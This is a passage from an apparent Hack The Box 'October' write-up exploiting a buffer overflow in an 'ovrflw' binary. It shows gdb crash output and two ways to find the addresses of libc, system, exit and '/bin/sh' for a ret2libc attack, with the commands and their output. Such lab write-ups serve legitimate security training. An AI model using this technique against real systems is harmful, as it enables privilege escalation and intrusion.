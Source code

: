 ```bash
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x45444342
[------------------------------------stack-------------------------------------]
0000| 0xffffd410 --> 0x0 
0004| 0xffffd414 --> 0xffffd4b4 --> 0xffffd62b ("/home/shiro/HackTheBox/October/ovrflw")
0008| 0xffffd418 --> 0xffffd4c0 --> 0xffffd6c6 ("LANG=en_SG.UTF-8")
0012| 0xffffd41c --> 0xffffd444 --> 0x0 
0016| 0xffffd420 --> 0xffffd454 --> 0x1bc33e2b 
0020| 0xffffd424 --> 0xf7ffdb98 --> 0xf7ffdb30 --> 0xf7fc33f0 --> 0xf7ffd9d0 --> 0x0 
0024| 0xffffd428 --> 0xf7fc3420 --> 0x804828a ("GLIBC_2.0")
0028| 0xffffd42c --> 0xf7fa3000 --> 0x1ead6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x45444342 in ?? ()
```

Now we just have to find the address of `system`, `exit` and `/bin/sh` to complete the exploit.

##### First method

First, we have to find the address of `libc`. 

```bash
$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b5000)
```

Then, we have to get the offsets for `system` and `exit` in the `libc` library.

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/"
 162bac /bin/sh
 164b10 /bin/csh
```

Then we can just [calculate](https://www.gigacalculator.com/calculators/hexadecimal-calculator.php) the address for each function.

```bash
# hex of libc.so.6 + hex of system
system: 0xb75b5000 + 0x40310 = 0xb75f5310
# hex of libc.so.6 + hex of exit
exit: 0xb75b5000 + 0x33260 = 0xb75e8260
# hex of libc.so.6 + hex of bin/sh
"/bin/sh": 0xb75b5000 + 0x162bac = 0xb7717bac
```

##### Second method

```bash
- Victim machine - 
$ gdb ovrflw
...
(gdb) b main
Breakpoint 1 at 0x8048480
(gdb) r
Starting program: /usr/local/bin/ovrflw 

Breakpoint 1, 0x08048480 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb75f2310 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75e5260 <__GI_exit>
```